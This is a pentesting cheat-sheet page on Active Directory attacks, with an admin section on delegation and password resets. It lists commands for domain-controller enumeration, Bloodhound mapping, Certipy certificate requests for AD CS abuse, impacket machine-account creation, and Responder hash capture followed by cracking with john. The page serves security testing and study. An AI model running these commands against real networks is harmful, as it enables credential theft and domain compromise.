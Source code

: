 ```yaml
---
title: Active Directory (AD) Pentesting
desc: Active Directory is a directory service developed by Microsoft for Windows domain networks.
tags: [Active, AD, Bloodhound, Certipy, Dig, Directory, LLMNR, NBT-NS, NTLM, Privilege, Windows, WPAD]
alts: []
render_with_liquid: false
---
```


## Investigation

- **Credentials**

    **[OSINT](./OSINT){:target="_blank"}{:rel="noopener"}** may help you to examine the credentials.

- **Find Domain Controllers**

    ```sh
    dig @<target-ip> <domain-name> any
    ```

- **Enumeration**

    **[Seatbelt](https://github.com/GhostPack/Seatbelt){:target="_blank"}{:rel="noopener"}**

<br />

## Basic Knowledge

1. **User Management**

    1. **Delegation**

        In Active Directory, the administrator delegate another user to manage users over an Organizational Unit (OU),  without the admin privileges.

        1. Setup

            1. Open "Active Directory Users and Computers".
            2. Right-click on the target OU, and click “Deligate Control…”. Then the new window will open.
            3. In the window, input username who you want to delegate the privilege that manage users.
            4. Select tasks to which the delegated user should manage.
            5. Click OK.

        2. Manage Users

            1. Logon as the delegated user.
            2. For instance, if you want to reset the john's password, execute the following command in PowerShell. Then input new password in prompt.

                ```powershell
                Set-ADAccountPassword john -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
                ```
            
            3. The first time John logs on after that, we want John to change his arbitrary password not the password you entered. So that to, execute the following command.

                ```powershell
                Set-ADUser -ChangePasswordAtLogon $true -Identity john -Verbose
                ```

            4. Now when John logs on he will be prompt to change a new password.


<br />

## Reveal Relationships

- **Use Bloodhound**

    [Bloodhound](https://github.com/BloodHoundAD/BloodHound){:target="_blank"} is an analyzing tool of Active Directory.

    ```sh
    # Start neo4j before starting Bloodhound
    neo4j console

    # Start Bloodhound
    bloodhound
    ```

<br />

## Active Directory Certificate Services (AD CS)

1. **Request Certification & Authentication**

    **[Certipy](https://github.com/ly4k/Certipy){:target="_blank"}{:rel="noopener"}** is a tool for enumerating and abusing of AD CS.

    ```sh
    # User Template
    certipy req 'vuln.local/username:password@vuln.com' -ca VULN-CA  -template User
    # Machine Template
    certipy req 'vuln.local/machine-name:machine-password@vuln.com' -ca VULN-CA -template Machine

    # After requesting it, use the output credential when authenticating
    certipy auth -pfx user.pfx
    certipy auth -pfx machine.pfx
    ```

2. **Add Your Computer to the Domain**

    Using **addcomputer ([impacket](https://github.com/SecureAuthCorp/impacket){:target="_blank"}{:rel="noopener"})**  
    It is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

    ```sh
    python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
    # or
    python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password@<hostname>' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
    ```

<br />

## Intercept NetNTLM Authentication

Start Responder to listen for any LLMNR, NBT-NS, WPAD requests.

```sh
sudo responder -I <interface-like-eth0>
```

Leave Responder running until receiving some requests.  
If you get NTLM hash, crack it in local machine.

```sh
echo -n '<copied-NTLM-hash>' > hash.txt
john --format=netntlmv2 --wordlist=wordlist.txt hash.txt
```

